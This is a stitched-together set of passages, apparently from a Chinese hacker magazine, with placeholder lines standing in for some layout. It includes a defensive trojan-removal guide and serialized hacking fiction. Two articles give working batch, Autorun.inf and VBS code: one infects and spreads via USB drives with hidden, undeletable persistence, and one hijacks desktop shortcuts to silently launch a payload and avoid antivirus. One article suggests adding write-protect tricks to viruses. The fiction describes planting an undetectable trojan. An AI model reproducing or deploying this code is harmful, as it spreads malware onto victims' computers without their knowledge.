别人的电脑上复制该键内容，杀毒完毕后导入注册表。另外要注意经常备份注册表。双管齐下，以确保万无一失！

## 三：总结

通过上面的故障不难看出，很多木马病毒都是对注册表进行了操作，所以我们在日常使用中要注意及时更新备份注册表……在“开始—运行”栏中输入 `regedit`，打开注册表编辑器，在“文件”菜单中选择“导出”……

### 完美搭配，打造自己完美的 U 盘

在看了上期的黑客 X 档案后，我一直在想是否可以将“文件的另类隐藏”和“Autorun.inf 光荣复活”这两篇文章中的方法结合起来……首先新建一个批处理文件，其内容如下：

```bat
@echo off
MD c:\windows\system32\com1
...
copy 病毒在U盘中的路径\病毒.exe c:\windows\system32\com1\病毒.exe
c:\windows\system32\com1\病毒.exe
```

以上代码的意思是在 `c:\windows\system32` 目录下新建一个名为 `com1` 的文件夹……并且运行这个病毒文件。由于 `com1` 文件夹的特殊性，常规方式无法创建或删除，只能在命令提示符下操作。

我们还可以再给病毒穿上一层隐身衣，在批处理中加入：`attrib c:\windows\system32\com1 +s +h /s`。如果病毒没有自动功能，还可加入：`echo c:\windows\system32\com1\病毒.exe>>c:\AUTOEXEC.BAT`……

命令如下：`echo c:\windows\system32\com1\病毒.exe >> C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\hao.bat`……接下来制作 `Autorun.inf` 文件，内容如下：

```ini
[AutoRun]
open=hao.bat
shell\open\Command=打开(&O)
shell\open\Default=1
shell\explore=资源管理器(&X)
shell\explore\Command=hao.bat
```

最后将 `hao.bat` 和 `Autorun.inf` 都设置成隐藏属性……如果对方电脑中还有可移动存储设备，我们还可以再建立一个批处理文件，内容如下：

```bat
copy /y 病毒在U盘中的路径\病毒.exe +hao.bat+Autorun.inf G:\病毒在你U盘中的路径\病毒.exe
attrib +r 病毒在你U盘根目录中的那个文件夹 +h
```

注意：这个批处理文件应该放在 U 盘根目录中……若大家做出的 `com1` 文件夹无法伪装成回收站，还可以伪装为“回收站.{645FF040-5081-101B-9F08-00AA002F954E}”文件夹。


### 打破木马反击战——查杀木马知识基础篇

### 1. 端口

因为牵涉到网络通信，也就是说木马必须依靠端口来进行信息传递……我们安装防火墙还是非常有必要的。针对 Windows 系统的木马，一般都是通过调用 winsock 套接字的 socket 函数建立连接来实现网络通信，因此有时通过查看端口可以获取木马的一些信息……

命令查看端口，通过该命令我们可以很容易地判断出基于 TCP 协议的通信端口，但是对于 UDP 协议的木马程序比如神气儿，使用 netstat 就有点“力不从心”了，对于此类木马，我们可以借用 Active Ports、iPort 等工具来查看，如图1。它可以让每个程序和其开启的端口相对应，这对于查杀一般的木马还是非常有用的，不过现在也有很多后门木马程序采用了原始套接字通信，使得通过端口获取木马信息变得相对困难了，这时候我们就该瞄准木马的另一个特点——自启动！

它提供了大多数 Win32 用户界面、消息相关的功能，只有极少数的程序不会使用 User32.DLL，比如命令行窗口，所以在关注启动项的时候我们首先关注的就应该是它。`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run` 键也需要注意，它对应组策略中的设置；还需要注意的一个地方是 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 在 userinit 和 shell 下键值，正常为“c:\windows\system32\userinit.exe,”和“explorer.exe”。此外，注册表自启动还有两种方法，一种是 `Active Setup\Installed Components`，另一种就是迂回曲折启动车。对于迂回曲折的自启动方法主要是指映像劫持……


图1

### 2. 自启动

一提到启动很多人首先都会想到注册表、Run 键值等，我们先来研究如何查杀木马自启动技术。木马制造者在编写程序的时候，为了能延长木马的生存期都会让木马实现自启动，目前来说木马有两种实现方法：注册表自启动和服务自启动。提到服务启动，我们就得先了解 Windows 服务的结构……系统每次启动时都会根据 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control` 下的服务启动设置来启动所有类型为“自动”的服务……

木马编写者通过调用 OpenSCManager()、CreateService() 等 API 函数创建木马服务并设置启动类型为自动。进一步还可通过替换服务、隐藏服务等方式规避检测；可借助命令行工具（如在 CMD 输入相关命令）查看并禁用可疑服务。注册表自启动常见于 RegCreateKeyEx() 和 RegSetValueEx() 的调用，另有 AppInit_DLLs、Winlogon、Active Setup、映像劫持等持久化手段。

上面所提到的自启动方法，我们都可以在 msconfig 里查到，只要大家对系统服务和注册表比较了解，还是很容易找到木马蛛丝马迹的。若木马结合了 HOOK API 技术，则需借助第三方工具查杀，并确保文件关联正常、木马工具未被映像劫持，必要时更换查杀工具进行处置。

### 3. 进程

首先要明确的是，检查进程并不一定能真正找到木马进程，这主要是由 HOOK API 技术导致。正常情况下可通过 CTRL+ALT+DEL 或任务管理器，以及 CreateToolhelp32Snapshot()、Process32First()、Process32Next() 枚举进程；但若被 HOOK，则可能看不到真实结果。其次必须熟悉关键系统进程（如 winlogon.exe、lsass.exe、smss.exe、svchost.exe）及其数量特征。还应关注 DLL 注入场景，重点检查 explorer.exe、iexplore.exe 等易被注入进程，并结合命令行与系统工具对 DLL 与可疑加载行为进行排查。

和 iexplore.exe 进程所调用的 DLL 文件，并可以在选中的 DLL 上点击右键通过 Google 搜索该文件的相关信息，如图2。


图2

DLL 进程插入技术的作用只是实现进程隐藏，如果重启电脑它自然就不存在了，所以还需要自启动来延长它的生存期，有时候寻找 DLL 文件觉得麻烦就可以从检查启动入手，找到可执行文件，一般 DLL 木马会使用服务启动，我们只要找到木马服务的服务程序，就好办多了。总之，检查进程的目的是确定木马进程和木马文件的位置，然后结束木马进程，很多木马都对任务管理器进行了特殊的处理，一般使用它是无法进行终止的，这时候就需要借助 IceSword 等程序来结束进程了。

#### 4、HOOK API 技术

HOOK API 技术的出现使得很多木马的生存期更长了，比如国内流行的木马 pcshare 就采用了该种技术。Windows 从 386 开始就采用了很多新的技术，其中之一就是增加了权限的设置。这里的权限设置不是指 NTFS 的，而是 CPU 的权限设置，从 386 开始 CPU 将程序的代码和地址分为了四个级别，它们是 ring0-ring3，Windows 为了系统的兼容性，只使用了 ring0 和 ring3，也就是我们通常所说的内核态和用户态，根据这两种状态 HOOK API 技术也分为了 ring0 下的和 ring3 下的。ring3 下的程序是无法访问 ring0 的函数及程序代码的，也就是说如果我们是 HOOK 掉了 ring0 下的某个模块，那么 ring3 下的各种查杀工具都是无效的。

## 二、木马的查杀思路

在进行任何事情前我们都需要有一个思路，查杀木马也是一样的。

- 1. 通过端口、进程、服务等信息获取木马的位置，这在上文中已经提到了。
- 2. 找到木马的文件。

找到木马文件不是件容易的事，首先要勾选上“我的电脑”—“工具”—“文件夹选项”下的“显示所有文件和文件夹”，并去掉“隐藏受保护的系统文件”和“隐藏已知文件类型的扩展名”前的勾。很多木马可能会通过修改注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL` 下的 CheckedValue 值为 0 的方法来实现隐藏，这种情况即便我们做了上面的设置也不可能找到木马文件，这时候就需要先将其注册表值恢复为 1，然后再进行查找了。我们还可以通过 WinRAR 等软件浏览文件，因为该类程序调用的是非标准 API（HOOK 不掉）函数，有时候可以帮助我们找到木马文件，GUI 界面中无法找到的我们可以在 CMD 或者 DOS 下查找并进行删除。

- 3. 结束进程。

结束进程的目的是为了删除文件，对于 DLL 木马一般都会插入 explorer.exe 或 IE 浏览器进程，我们可以通过 syscheck、Process Explorer、IceSword 等程序分析它们所调用的 DLL 文件，找到后点右键删除模块即可（以 syscheck 为例）。如果在端口查询中我们就获得了木马信息，这种情况就好办了，很容易就能找到木马进程，然后在任务管理器中结束，当然也有很多木马后门做了处理，我们通过任务管理器是无法结束掉它们的进程的，这时候我们就应该考虑使用上面提到的几个安全工具来结束了，在 IceSword 和 syscheck 中都提供了“禁止进程创建”，这可以防止木马进程死灰复燃。

### 4．删除文件

如果在 GUI 界面中无法直接删除的话，比如木马 DLL 文件插入了 explorer.exe 进程，这时候就需通过任务管理结束 explorer.exe，然后在 CMD 下删除 DLL 文件，再通过任务管理器的“文件”—“新建任务”，输入 explorer.exe 重新启动桌面进程即可。如果遇到了顽固的木马，我们可以重新启动计算机进入安全模式，然后再删除。当然很多情况下木马入驻系统的同时也是病毒来临的时候，木马和病毒是很难分家的，比如 AV 终结者它就会阻止进入安全模式，而且有很多驱动级的木马在安全模式下也依然会启动，总之，我们不能太依赖于安全模式。借用第三方软件删除文件有时候是必须的，比如 Unlocker、费尔强力文件删除工具、syscheck 等等！

### 5．最后的杀手锏

如果文件怎么也找不到，或者是找到文件怎么也删除不了，我们可以启用 WinPE 进行急救，或者对系统进行还原。但是如果碰到 Rootkit 类的后门木马程序，我们一旦操作失误就会导致系统的崩溃，这时候就可以使用故障恢复控制台来替换感染的文件。使用故障恢复控制台的方法具体来说有两种（以 WinXP 为例）：

- 1. 使用 Windows 的启动光盘引导，在启动的时候选择“用命令恢复控制台修复”。
- 2. 在 Windows 运行的时候安装，具体的方法为先将 WinXP 的安装启动盘放入光驱，在开始菜单中选择“运行”，打开“运行”对话框，输入 `f:\i386\winnt32.exe /cmdcons`（假设光驱盘符是 f），当系统提示你是否安装“故障恢复控制台”的时候，选择“是”就会出现安装向导了，之后选择跳过网络更新，等文件复制完毕后，就安装成功了。

重新启动计算机就会出现“Microsoft Windows Recovery Console”这个选项了。这里需要注意一点，在“故障恢复控制台”提示符下不能使用“cd\”命令更改到根目录，必须使用“cd..”命令（cd 与 .. 之间无空格，这与 Linux 系统有点不同）进行目录切换。假设服务控制管理进程 services.exe 被感染了，我们输入 `copy f:\i386\services.ex_ c:\windows\services.exe`，这时候系统就会提示是否覆盖文件，选择“Y”按“Enter”就完成了。

#### 三、防范

删除木马文件完毕后，我们可以在同目录下建立一个和木马文件名相同的文件夹，比如木马文件为 `c:\windows\system32\server.exe`，我们就可以在 system32 文件夹下建立一个 `server.exe` 的文件夹，然后在 CMD 下进入 `server.exe` 文件夹，输入 `mkdir protect..\` 的命令，这样我们建立的 `server.exe` 文件夹就不会被删除了（这个方法对付 AUTORUN.INF 木马较为有效）。当然我们也可以使用映像劫持的原理，在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 下建立木马同名文件，然后建立一个名称为 debugger，其值为 `c:\\test.exe`（test.exe 一个空语句的程序）。

对于木马的防范是一个非常大的话题。对于陌生网站要“手下留情”，注意升级补丁、备份系统（如注册表文件等）。清理完毕后可用 `dir`、`tasklist`、`netstat -an` 等命令记录系统状态，便于后续对比。若只有联网计算机，建议将重要数据保存到外部设备（如移动硬盘、U 盘、光盘等），也可通过虚拟机隔离访问网络。

### 记事本也杀毒


小菜们常遇到病毒进程反复关闭又重启、启动项删除后恢复、难以定位病毒文件路径等情况。与其频繁重装，不如通过命令行方式先恢复 EXE 文件关联，再逐步定位并清除病毒文件。

- 1. 在“开始”→“运行”输入 `CMD`，打开命令提示符。
- 2. 输入 `ftype exefile=notepad.exe %1`，让 EXE 先以记事本方式打开，阻止病毒直接启动。
- 3. 重启后会看到很多“记事本”窗口，其中可能包含病毒文件和异常系统文件。
- 4. 任意文件右键“打开方式”→“浏览”，定位到 `Windows\System32\cmd.exe`，重新打开命令提示符。
- 5. 运行 `ftype exefile=%1 %*`，恢复 EXE 正常关联。
- 6. 在各“记事本”窗口通过“另存为”查看完整路径，手动删除确认的病毒文件并重启验证。

```bat
ftype exefile=notepad.exe %1
ftype exefile=%1 %*
```

`Ftype` 用于显示/修改扩展名关联的打开程序，效果类似修改注册表中 `HKEY_CLASSES_ROOT` 的文件关联项。`%1` 表示被打开的目标文件本身，`%*` 表示传递给程序的全部参数。

### 遭遇“U 盘无法写入”病毒


案例现象：电脑杀毒后，U 盘可读取/复制但无法写入或格式化，提示无法创建文件。将同一 U 盘接入其他电脑可正常读写，说明问题更可能出在本机系统策略而非 U 盘硬件损坏。


可通过注册表检查写保护策略：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\StorageDevicePolicies`，将 `WriteProtect` 的值设为 `0` 后重插 U 盘。文中还提到可用工具进行 U 盘软写保护开关，但需警惕被病毒利用来阻止删除。


病毒本身并不厉害，但如果我们不知道方法的话，在本机上也无法将它彻底清除。同样，如果我们想让病毒和木马通过 U 盘传播而不被删除，就可以在编写病毒时根据情况添加打开或关闭 U 盘软写保护的功能，为我们的病毒和木马再添加一道屏障。（本文所涉及到的 Autorun 病毒防护都已收录到光盘中）

### 病毒的另类启动方式

菜客


很喜欢杂志上无敌小龙所写的关于木马编程的文章，让我们这些小菜也能有机会去 DIY。虽然和牛人们那些功能强大的木马比起来有些微不足道，但能使用 cmd 控制肉鸡已经可以做很多事情了。最重要的是不会被杀毒软件查杀，但是还有一点美中不足，就是无敌小龙始终没有提及木马的启动方式，总不至于将木马放到启动项里吧，那样太暴露、太不“隐蔽”了，后来软件还会乱“叫”。对于过于复杂的驱动加载技术，我们小菜也做不了，经过一番努力，我找到了几种启动方式，而且杀毒软件也不会“叫”，特写出来供广大文友们参考。

#### 一、快捷方式劫持

这个名字是我自己起的，其理想结果就是被劫持后，不管是桌面、快速启动，还是开始菜单程序中的快捷方式都会指向我们的病毒文件，同时病毒还会运行快捷方式本应指向的程序以避免被用户发现。理论上讲这种启动方式的成功率还是比较高的，因为谁都会使用到快捷方式，而常用的快捷方式已经被我们偷梁换柱了，想不中招都不行呀。

下面我就以劫持桌面上的 QQ 快捷方式为例来写一段参考程序。假设我们的测试病毒文件是 mm.exe（其实是一个提示对话框），位于 `%SystemRoot%`（C:\Windows）目录下。在编写代码前，我们需要手工制作一个快捷方式“腾讯QQ.lnk”，方法非常简单：使用图标提取工具“IcoSprite”提取图标，创建新的快捷方式并在“项目的位置”中填入“`%SystemRoot%\run.exe`”。之后在属性中更改图标为提取出的 QQ 图标。


这样就制作好了。接下来我们就需要使用刚才制作的快捷方式来替换桌面上正常的快捷方式了，我编写了一个批处理文件，如下：

```bat
copy "%USERPROFILE%\桌面\腾讯QQ.lnk" "%SystemRoot%"
del "%USERPROFILE%\桌面\腾讯QQ.lnk"
copy "%SystemRoot%\run.lnk" "%USERPROFILE%\桌面\腾讯QQ.lnk"
exit
```

将这段代码保存为“Main.bat”，现在大部分工作就已经做完了。接下来要做我们的肉鸡程序了，它的作用是运行 QQ 程序和病毒程序 mm.exe，代码如下：

```bat
start 腾讯QQ.lnk
start mm.exe
exit
```

将它保存为“qqrun.bat”，然后建立一个 VBS 脚本，这个脚本的主要作用是隐藏 bat 文件窗口，代码如下：

```vb
Dim Wsh
Set Wsh = WScript.CreateObject("WScript.Shell")
Wsh.Run "qqrun.bat",0
```

将上面的代码保存为“hidQQrun.vbs”，其中 qqrun.bat 便是我们要隐藏运行的 bat 文件。使用同样的方法创建另外一个隐藏 main.bat 窗口的 vbs 文件并命名为“Hidemain.vbs”。剩下的工作就是制作自解压程序了：将 run.lnk、run.exe、main.bat、Hidemain.vbs 和病毒程序 mm.exe 一起打包到一个文件中，并在解压路径中填上 `%SystemRoot%`，解压后运行中填上 Hidemain.vbs 并选择隐藏运行。这样一个隐藏的启动方式就制作完毕了。运行下来看看效果，如图 2，很隐蔽哦！


### 鬼网超生（三）

### 神秘的网站

海边一粒沙

东方浩哲扔下周欣飞快地向出租房跑去，他希望一向懒惰的老四，今天突然神经病发起来去上课，或者出去跑跑步。也许这样就能逃脱女鬼的纠缠，但是让老四早起这种事情自比天上掉人民币还要出奇。

不过这次出奇的事情倒还真发生了，东方一跑回家里就发现，小光老四起来了，老三也在，而且房间里还多了一个老婆婆，牙一颗也没有了，浑身上下奇怪的打扮，左手里拿着一根剑不像剑、木头不像木头的东西，右手端着一个小盆，里面是不知道什么东西的黄色白色液体。老婆婆嘴里念念有词：“天灵灵，地灵灵，王母娘娘快显灵，妖魔鬼怪跪下全听令。”

……（正文为四栏排版的连续小说段落，内容从“东方大脑嗡的一声……”继续，至页面底部“吃完了东西，东方整整在大街上蹲……”）

## 侠隐仙踪

（正文为中文小说多栏排版，贯穿整页正文区域）

了半个小时，对于回到那个鬼屋东方还真是有些害怕，不过不回去老四会不会被鬼吃掉呢？扔下烟头走回鬼屋，走进楼道的时候东方就能感觉到出奇的安静，整栋楼房一点声音也没有。东方心里七上八下地走回了出租屋，所幸的是老四和老三都没事，而且极其安静地在房间里抽烟。

东方看到两个人没事，悬着的心也终于放下了，噗通一声倒在了床上说道：“怎么样？你们俩那边搞定没有，那个女房东是怎么回事啊？”

（中间为连续长篇正文，包含大量对话与叙述，版面为四栏连续文本，无列表、无表格、无代码块、无引用块、无插图）

……

不到四个小时，东方就被老四吵醒了。老四摇晃着东方的胳膊说：“对了，昨天晚上忘记问了，你查到线索没有？”

## 侠隐仙踪

东方懒洋洋地坐了起来说道：“差一点，被发现了，所以里面的一些秘密都没有拿到。”

“晕，这么好的机会都浪费了，你真是笨蛋！”老四焦急地开始数落起东方来。东方也懒得争辩，所有被感情冲昏了头的人，智商都比较低下，而且神经也是属于错乱状态下的，所以东方也没争辩，沉了把脸就向学校走去。

东方来到学校的时候已经明显是迟到了，好在大学对于每个学生都是很宽松的，所以迟到就迟到了。老大几个人破天荒地看到东方这么早来，简直比看见外星人还要新鲜。几个人凑在底下开始打屁，教授在上面说的什么几个人根本就心不在焉。

一堂课总算是熬下来了，东方一下课就向周欣的教学楼跑去，打听无数个人之后，才知道这个丫头一下课就跑了出去。打听具体位置之后东方就直接跑了过去。毕竟昨晚上事太诡异了，万一那个神秘人要陷害自己，那么东方准没跑。

终于在树林看到了周欣的身影，不过她此刻正依偎在别人的怀抱里。东方看到的是两个人激情地拥吻缠绵。每个人都受不了自己喜欢的人被别人亲吻着，在这个时候每个人都有两种选择：第一种是爆发，前提是这个女孩不是你女朋友或者老婆的状态下；第二种是沉默，前提是这个女孩子根本就没把你当回事，你不沉默，爆发也没用。所以东方沉默了，看着自己心爱的女人和别人缠绵不休，除了心口很痛，再者东方做了一个决定，以后永远都不会为这个女孩难过悲伤。

周欣终于在醉人的缠绵中清醒了过来，看到东方略微有些不好意思，羞涩地一笑说：“这是东方，我最好的朋友。”

那个有些坏坏但帅气的男孩子微微一笑向东方示好。东方同样热情高涨地伸出了右手，不过心里却极其不舒服。但东方还是十分友好地说道：“可以让我和周欣谈谈吗？我有很重要的事情要和她说。”

那个男孩子点点头，东方把周欣拉到了一角，开门见山地说：“昨天你给我的那东西是哪里来的？”

周欣不解地看了看说：“是你的朋友给我的啊！叫你的 QQ 发给我那些东西，然后说晚上 9 点多以后给你。他说你知道这是什么东西，而且能知道你 QQ 密码的人应该跟你关系很要好吧？”

东方苦苦愣了，难道自己早已经被别人入侵了？原来自己每走一步都是在别人的操纵之中，仿佛一切都坠入了黑色漩涡里了！

（未完待续）


海边一粒沙

### 同病相怜的机客

在这个世界上有很多解释不清的事情，是无法用正常的思维方式来思考的。但越是解释不清的事情，人们越喜欢追逐真相。哪怕这件事会给当事人带来多大的危害都无所谓，重要的是死得要明明白白。

以前的生活无非是上网入侵几个网站，搞几台肉鸡。这样的生活对于东方来说是平淡且无聊的，但是偏偏在现实生活中的东方又是那么地平凡。所以有的人黑站，只是为了证明自己的价值，当然也不排除无聊者横扫千军。也有人沉迷于游戏中，因为那里有法宝，有妖怪任由自己欺负，有装备，还可以升级，更有那些虚构的友情和爱情，一切都比现实要来得完美。但这，人的精神可以虚拟，但是肉体却不能。因此很多人都会在虚拟与现实中徘徊。

东方是个平凡的大学生，所以这样的生活他当然尝试过。现在虽然也是在这样的生活和学业中活着，但是却格外有了意义，毕竟现实中的危机都要靠网络化解，其实这一直都是东方向往的生活。

又是一夜，东方忘记了这是出现那个神秘端口之后的第几个不眠之夜了。虽然平均每天只有几个小时的睡眠，却精神百倍。他现在要研究一下网监部门提供给那个神秘网站的防火墙，而且根据他的推断，自从上次他引起了那个服务器报警后，那家公司戒备得更严了，这也使得他的任务变得更加艰难。要想到神不知鬼不觉地进入网站，就必须要有更深、更过硬的技术，东方只好一边学习，一边钻研。

而老四好像被那个诡异的女房东勾了魂一样，每天定时定点给东方送饭送菜，有时候也会拿来一些水果，并且一而再、再而三地叮嘱东方一定要尽早地入侵那家神秘公司的网站，让诡异女房东小静早日来找他们。

有时候看到老四对自己这么好，这惊人的巨变简直就让东方无法接受，难道这个世界上真的存在一见钟情吗？而且这么痴狂。

除了偶尔想想老四对小静的怪异情感，其他的时间里东方都在想方设法地入侵那个公司。不过该用的工具都用了，该用的方法也都用了，可还是没有什么效果。这样的日子几乎让东方绝望了，从一开始的兴奋到现在的颓败，或者说是已经开始无奈了。深夜的时候想到这件事就头疼得睡不着，所以只好翻看着自己的博客，翻翻自己邮箱里面的邮件。

突然，东方被一封神秘的邮件吸引了，里面又是一串神秘的代码。不用多想东方就知道这玩意儿，一样是一个神秘的端口。东方所有的热情都被激发了。他仔细地看了看这个邮件的地址，纯属就是一堆数字和字母，没有任何的价值，所以根本看不出这个人会是谁。不过这些在东方的眼里已经不重要了，这些日子的苦心钻研，东方真的很想大显身手，现在终于有了机会，也不管这个端口是否正确，是不是一个圈套了。

夜晚诡异镇的空气，键盘上跳动……

件事情后好好地揣摩一番。不过这几台电脑里没有多少图片，而且这几台电脑里安装的也只是一些系统软件。但是东方检查了一下它的开机记录，发现这台电脑除了上次入侵后，只关机了一次，在更换了一次 Vista 系统后，就一直开机到现在。一台只有操作系统、没有其他软件的电脑，整天开机的目的是什么呢？东方虽然无法在这几台电脑里找出一些可以证明异常的程序，却敢肯定这几台电脑里面一定有着不可告人的秘密。

东方把一个远程控制软件无声无息地拖到系统盘的隐藏文件中，这是东方精心研究很久的免杀木马。其实这个木马本身就免杀过了，但为了专门针对这个神秘公司，东方不得不重新加壳。东方测试了一下木马，上线成功后就断开了连接，如果停留的时间太长，或者下载的东西太大，那么一定会被对方察觉的。所以他运行了一个可以控制远程肉鸡下载速度的软件，并且把下载速度设定为 0.5k。总结上次的经验，东方总感觉对方发现自己的原因很有可能是从网速上察觉出来的。

下载的图片有的很大，有的很小，缓慢的下载速度让东方觉得有些焦急，于是开始随意地翻看着对方电脑里的文件，但是结果让东方很失望，索性扔下电脑，站起来活动活动筋骨。看着朦黑的窗外，想起那晚小静站在窗外那诡异的眼神，就不由得心有余悸，总能感觉到窗外似乎隐藏着什么。

东方心惊胆战地走到窗前，向下望去，街道上除了昏暗诡异的街灯、林立在街道两旁的树木和摇曳不定的树影外，其他的什么都没有。东方终于松了一口气，自从上次，他总感觉被小静监视一样，有些时候背对着窗户吃饭都会感觉有一双眼睛在盯着自己。

东方收起烦闷的情绪，刚一转身却发现对面楼房的窗帘有一块是残缺的，伸出来一个望远镜的探头，在漆黑的夜晚里像是一个恐怖的怪兽，每时每刻都注视着东方的一举一动。东方先是一惊，转而惊讶，最后全都被愤怒所代替了，他穿上衣服奔向了对面的楼房。

夜晚的风有些凉，足以让一个人冷静下来。如果对方真的想监视自己，那么好吧，让他监视去吧。他会做一场好戏给对方看，让他被自己的阴谋所害死。东方想到这里又走了回去。回到房间里，安静地坐在电脑前，脑袋里飞快地旋转着，想着怎样把那个可恶的家伙推入到一个陷阱里去。

正在沉思的时候，那个神秘公司里的图片已经下载完毕了。对面楼上那个该死的家伙让东方一点心情都没有，心里总是忐忑不安的。他关掉了电脑躺在床上，双眼微闭，注视着对方那台望远镜。

不知什么时候东方睡着了，醒来的时候发现窗帘不知在什么时候已经拉上了，所以房间里陷入了一片灰暗之中。东方从床上爬了起来，看了看外面，清晨的阳光很刺眼，估计是老四他们害怕自己睡得不舒服，所以早上来的时候顺便就把窗帘拉了起来。东方对老四他们越来越懂事感到很满意。不过看了看桌子上的闹钟，已经 10 点了，但是到处都找不到早餐。老四这个家伙，拉了窗帘就不带早餐了。相比较下，东方还是更希望老四能够多带些早餐来，因为早上不拉窗帘一样可以睡觉，但是不吃早餐确实有些难受。

东方打开了电脑，想看看昨天下载的图片。打开了图片，东方却觉得这些图片一点价值也没有，都是一些人的相片，有老有少，有男有女，很显然对于东方来说这些图片一点价值也没有。

正当感到烦闷的时候，门开了。老四拎着吃的走了进来，解释着说道：“今天老师发神经来了个大抽查，所以为了帮你写检讨，我才这么晚来。喏，这是你的。吃完了汇报一下你这几天的收获。”

“哦，好的，确实有点新的进展。”东方咬着油条喝着豆浆说道。

“真的？那有小静的消息了吗？”看着老四兴奋的表情，东方有点难受，忽然想起了什么说道：“对了，早上你确实没来？”

老四点了点头说道：“确实没来！”

东方看着微开的窗帘又出神地说道：“那么是谁帮我拉上窗帘的。”

老四一副无辜地看着一脸迷茫的东方。东方不说话，只是一口一口地咬着油条，猛然抬起头，对面的窗帘依然没有拉开，看起来沉闷得像个坟墓。

老四发现东方好像陷入到了另一难缠的问题中，本来在东方思考的时候他是不想打扰他的，但是想到小静，老四就嘴痒痒，终于还是忍不住地问道：“东方，你刚才说有了进展，到底有啥进展呢？快点告诉我你找到小静没有？”

东方飘荡的思绪被拉了回来，一脸不耐烦地看着老四说道：“你怎么就那么关心她呢？你就不怕你哥们有一天因为这个女人被害死吗？”

一向喜欢苦笑的老四一听到东方说这话，两只眼睛都冒火，怒气冲冲地说道：“东方，你说这话就不够意思了，这几个月来照顾你我多尽心尽力啊。天热怕你中暑，天冷怕你感冒，给你吃给你喝的，你这人咋就这么没心没肺啊？”

虽然老四这么做完全是为了小静才对自己这么好的，但是也不排除老四发自内心品质好，所以东方不好意思地笑了笑说道：“我是说这事很复杂，怕你吃亏。到底你和这个小静有什么渊源啊？”

老四低下了头，过了良久才说道：“当我第一眼看见小静的时候我就觉得很熟悉，好像在哪里见过一样。后来小静消失之后我还在想，直到小静消失的第二天我才想起来，其实房东小静和我小时候认识的一个女孩子很像。那时候她爸妈离异了，她每天都跟她爸爸在一起。小朋友都欺负她，一开始我也是，后来我看见她躲在她家后院里哭，对着一个古老的开满花的樱桃树许愿，说希望我不再欺负她。后来我就成了她的好朋友，我们俩经常在一起玩，谁要是敢欺负她我就第一个站出来。久而久之，村里大大小小孩都认为我们在一起恋爱。到初中的时候，我把我们之间那种亲密无间的行为认为是爱情。那个时候的她出落得很漂亮，很多男生都围着她转，我不止一次地使用暴力威胁那些男孩子离她远点。久了，她没有朋友了，但是她也变得和我很陌生了，再也没有曾经的那种默契和友好。再后来她就搬走了，一句话也没有留下。这么多年来我一直都在找她，但是却音信全无！”

听完老四的叙述，东方只能用“同病相怜”来形容他此刻的心情，却一句安慰的话也说不出来，只能老老实实地报告这几天的成果：“我入侵到那家公司，但里面什么也没有。但不管怎么说这也算是入侵成功了吧，小静应该能出现了吧？”

老四听完东方的话，仿佛看到了希望从天而降，喃喃自语地说道：“如果老天再给我一次机会，我一定会告诉她，我那么做全都是因为我太喜欢她了。”

东方还在想着昨晚那个神秘的望远镜，还有今早拉上的窗帘，所以无力地靠在床上说道：“随便你吧，这些日子把我累坏了。”说完就注视着对面的楼房一动也不动了。

老四摇晃着东方的身体说道：“你倒是说说小静的消息啊？”

老四的提醒让东方想起来自己还没有具体地讲讲这些天来的进展。可是刚要开口的时候门铃却突然响了起来。老四一脸不耐烦地走向门边，估计心里是在骂娘呢。

“你好，我是李智，是网监安全部的，请问你是东方浩宇吗？”

门外一个温柔的男声响了起来，屋子里的东方直接从床上弹了下来，直接来了一个脸朝地。心里那叫一个慌啊。第一是因为这个网监的家伙，第二他一直在考虑，本来不帅的脸经过刚才的狗吃屎会不会变得惨不忍睹。

老四愣在了门前，脸上的表情阴晴不定，过了良久之后，只好撒谎地说道：“那个，呃……东方不在，不是，这里没有叫东方的人。”

完了，这回死定了，东方几乎开始绝望了。东方悄悄地爬到了窗台边，看了看下面，准备逃跑，但是突然脑子里想到……

### 鬼网超生（五）

（上半页正文，三栏排版）

“那个疯掉了的小偷，甚至可以联想到自己跳下去的下场……”至“安静和恐惧在这个凌乱的空间里滋生了起来。（未完待续）”。

（下半页正文，三栏排版）

“送走李智后，东方突然心血来潮地打扫起房间来……”至“结果老二送给东方两个字：做梦！然后非常不给面子地就挂上了电话。”

接下来东方给寝室里所有的兄弟都打了电话，结果和老二都是一个口气。看来拿出多年兄弟感情这种廉价的东西是不行的。求人不如求己，东方只好亲自打电话给班主任，没等开口就先哭上了，大声地哭着说道：“老师，老师啊，我不活了，你千万不要拉着我！呜呜……”

很显然老师和他俩的距离比较遥远，并没有拉着他，倒是很着急地问道：“怎么了？东方别哭，慢慢说，到底怎么回事呢？有什么事老师都会帮你的！”

东方一把鼻涕一把泪地说道：“老师，我奶奶快要病逝了，家里人怕我担心，所以没有告诉我，但是我现在一定要回去见她老人家最后一面。现在每分每秒，我都在想奶奶小时候帮我洗衣服，帮我洗澡，病了喂我吃药这些情景……”

接下来省略无数东方煽情的废话。渐渐地东方能听到老师在电话那头抽噎的声音，东方觉得时机开始成熟了，于是痛苦地说道：“老师，我能请假回家吗？”其实用这种白痴的叙述和虚假的情感来请假，东方是一点信心都没有的，可是没想到老师却居然相信了。

老师坚定地说道：“当然可以了，如果你手里没有路费，老师可以借给你两千。”

东方感激涕零地说了声谢谢，就挂上了电话。一脸得意地看着身旁早已经目瞪口呆的老四，吹着口哨收拾行李去了。

不一会儿，外面传来了老四的声音：“老师，55555555，老师，我不活了，这不是东方他奶奶要病逝了吗？作为他多年的兄弟，听到这个噩耗我简直是痛不欲生，我一定要见他奶奶最后一面，不然我死也不瞑目，我……”

东方从房间里走了出来，看着老四一脸痛苦地还没有把话说完，就听见老师在电话另一端愤怒地嘶吼着说道：“该干嘛干嘛去，人家死了奶奶干你P事啊！”接着是电话猛烈挂断的声音。屋顶的灰尘都往下掉了，可见老师的嗓门真的可以和大炮媲美。

老四一脸不解地看着东方，委屈地说道：“怎么我来苦肉计这招就不管用呢？”

东方嘿嘿一笑说道：“人品问题！”说完就自顾整理行李去了。

